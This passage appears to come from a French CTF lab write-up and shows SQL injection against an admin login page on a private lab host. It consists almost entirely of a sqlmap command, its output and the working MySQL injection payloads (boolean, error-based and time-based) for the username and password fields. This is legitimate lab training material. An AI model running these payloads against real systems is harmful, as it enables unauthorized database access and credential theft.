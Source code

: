 ### Bonus n°2 : Injection SQL sur la page d'authentification admin

![Affichage de l'image CTF4_SQLi2.png](images/CTF4_SQLi2.png)

```console
root@blinils:~# sqlmap -u "http://192.168.15.131/admin/index.php" --data="username=test&password=abc" --dbms=MySQL

--snip--
[01:11:11] [INFO] testing connection to the target URL
[01:11:11] [INFO] checking if the target is protected by some kind of WAF/IPS/IDS
[01:11:11] [INFO] testing if the target URL content is stable
[01:11:11] [INFO] target URL content is stable
[01:11:11] [INFO] testing if POST parameter 'username' is dynamic
[01:11:11] [WARNING] POST parameter 'username' does not appear to be dynamic
[01:11:11] [INFO] heuristic (basic) test shows that POST parameter 'username' might be injectable (possible DBMS: 'MySQL')
[01:11:11] [INFO] heuristic (XSS) test shows that POST parameter 'username' might be vulnerable to cross-site scripting (XSS) attacks
--snip--
[01:11:11] [INFO] POST parameter 'username' appears to be 'MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause' injectable (with --string="In")
[01:11:11] [INFO] POST parameter 'username' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable 
--snip--
POST parameter 'username' is vulnerable. Do you want to keep testing the others (if any)? [y/N] y
[01:11:11] [INFO] testing if POST parameter 'password' is dynamic
[01:11:11] [WARNING] POST parameter 'password' does not appear to be dynamic
[01:11:11] [INFO] heuristic (basic) test shows that POST parameter 'password' might be injectable (possible DBMS: 'MySQL')
[01:11:11] [INFO] heuristic (XSS) test shows that POST parameter 'password' might be vulnerable to cross-site scripting (XSS) attacks
--snip--
[01:11:11] [INFO] POST parameter 'password' is 'MySQL >= 4.1 OR error-based - WHERE or HAVING clause (FLOOR)' injectable 
[01:11:11] [INFO] POST parameter 'password' appears to be 'MySQL >= 5.0.12 OR time-based blind' injectable 
--snip--

Parameter: password (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (MySQL comment) (NOT)
    Payload: username=test&password=abc') OR NOT 7810=7810#

    Type: error-based
    Title: MySQL >= 4.1 OR error-based - WHERE or HAVING clause (FLOOR)
    Payload: username=test&password=abc') OR ROW(4449,6121)>(SELECT COUNT(*),CONCAT(0x71766b7871,(SELECT (ELT(4449=4449,1))),0x716a706271,FLOOR(RAND(0)*2))x FROM (SELECT 5477 UNION SELECT 1960 UNION SELECT 6175 UNION SELECT 1968)a GROUP BY x)-- iClr

    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 OR time-based blind
    Payload: username=test&password=abc') OR SLEEP(5)-- qbfc

Parameter: username (POST)
    Type: boolean-based blind
    Title: MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause
    Payload: username=test' RLIKE (SELECT (CASE WHEN (7773=7773) THEN 0x74657374 ELSE 0x28 END))-- VTAp&password=abc

    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
```